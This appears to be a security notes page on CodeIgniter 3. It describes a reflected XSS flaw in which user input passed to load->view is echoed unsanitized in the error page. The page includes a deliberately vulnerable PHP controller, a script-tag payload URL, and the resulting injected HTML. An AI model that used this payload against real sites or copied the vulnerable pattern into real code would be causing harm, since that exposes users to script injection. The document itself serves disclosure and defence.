

import FigCaption from "../../../../components/FigCaption.astro";

CodeIgniter 3 is the previous version of the popular PHP web framework. Maintenance of CodeIgniter 3 is slow though
ongoing nowadays. Most maintainers have moved to CodeIgniter 4.

---

## Versions of CodeIgniter 3

The latest CodeIgniter 3 release, 3.1.13 from March 3rd 2022, can be downloaded from
[this](https://codeigniter.com/userguide3/installation/downloads.html) site. Some fixes and improvements have been made
since then. They are available on the default `develop` branch on [GitHub](https://github.com/bcit-ci/CodeIgniter).
These changes are not part of any official release.

## XSS in CodeIgniter 3 via user controlled `load->view`

The latest release of CodeIgniter 3 is vulnerable to XSS
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf) when userinput is passed into
`$this->load->view($page);`. A fix exists, but was never merged [[4]](https://github.com/bcit-ci/CodeIgniter/pull/6113).
This applies to both the latest release and the latest development version.

Take this example code of a minimal CodeIgniter 3 controller inserting userinput into the `load->view` function:

```php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

class Welcome extends CI_Controller {
	public function index()
	{
		// Trigger the XSS by requesting http://localhost/?page=%3Cscript%3Ealert()%3C/script%3E
		$page = $this->input->get("page");
		if (isset($page)) {
			$this->load->view($page);
		}
	}
}
```

Since the requested view does not exist, CodeIgniter 3 will emit the error message `Unable to load the requested file:
$REQUESTED_VIEW .php`. The value of `$REQUESTED_VIEW` is not sanitized however, allowing an attacker to inject HTML/
JavaScript into the DOM.

```html collapse={5-51} title="Error" {57}
<html lang="en"><head>
<meta charset="utf-8">
<title>Error</title>
<style type="text/css">

::selection { background-color: #E13300; color: white; }
::-moz-selection { background-color: #E13300; color: white; }

body {
	background-color: #fff;
	margin: 40px;
	font: 13px/20px normal Helvetica, Arial, sans-serif;
	color: #4F5155;
}

a {
	color: #003399;
	background-color: transparent;
	font-weight: normal;
}

h1 {
	color: #444;
	background-color: transparent;
	border-bottom: 1px solid #D0D0D0;
	font-size: 19px;
	font-weight: normal;
	margin: 0 0 14px 0;
	padding: 14px 15px 10px 15px;
}

code {
	font-family: Consolas, Monaco, Courier New, Courier, monospace;
	font-size: 12px;
	background-color: #f9f9f9;
	border: 1px solid #D0D0D0;
	color: #002166;
	display: block;
	margin: 14px 0 14px 0;
	padding: 12px 10px 12px 10px;
}

#container {
	margin: 10px;
	border: 1px solid #D0D0D0;
	box-shadow: 0 0 8px #D0D0D0;
}

p {
	margin: 12px 15px 12px 15px;
}
</style>
</head>
<body>
	<div id="container">
		<h1>An Error Was Encountered</h1>
		<p>Unable to load the requested file: <script>alert()</script>.php</p>	</div>

</body></html>
```


<FigCaption caption="The XSS is triggered by wrapping a JavaScript payload in script tags and passing it to the vulnerable parameter." />

You can find a full PoC project [here](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC).

This vulnerability was discovered by Antoine Cervoise and Maxime Rinaudo at Synacktiv. See their vulnerability report
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf).

## References

1. [Official documentation](https://codeigniter.com/userguide3/index.html)
2. [GitHub repository](https://github.com/bcit-ci/CodeIgniter)
3. [XSS via user controlled `load->view`](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf)
4. [Fix for XSS via user controlled `load->view`](https://github.com/bcit-ci/CodeIgniter/pull/6113)
5. [XSS via user controlled `load->view` PoC project](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC)
